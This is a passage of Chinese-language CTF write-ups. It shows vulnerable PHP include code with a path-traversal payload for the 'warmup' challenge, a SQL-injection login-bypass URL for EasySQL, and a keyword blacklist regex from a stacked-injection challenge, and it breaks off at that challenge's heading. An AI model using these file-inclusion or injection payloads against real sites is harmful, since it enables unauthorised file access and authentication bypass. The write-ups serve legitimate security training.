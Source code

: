 ```php
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

**解题思路**

```
$page = hint.php?../../ffffllllaaaagggg

mb_substr截取$page为hint.php，之后$_page=hint.php,最后include('hint.php?../../ffffllllaaaagggg'),payload如下：

``?file=hint.php?../../../../../../../ffffllllaaaagggg``

![](./img/warmup1.png)
```

**总结**

此方法只适合在Linux环境下使用，hint.php?/会被当作目录

## 极客大挑战-2019-EasySQL

万能密码登录后台

password存在注入：

``http://64faf8e1-4207-4c80-9f0a-a272e2ef33cc.node3.buuoj.cn/check.php?username=1&password=2%27%20or%201%23``

## 强网杯-2019-随便注

存在过滤如下
``return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);``

**解题思路**
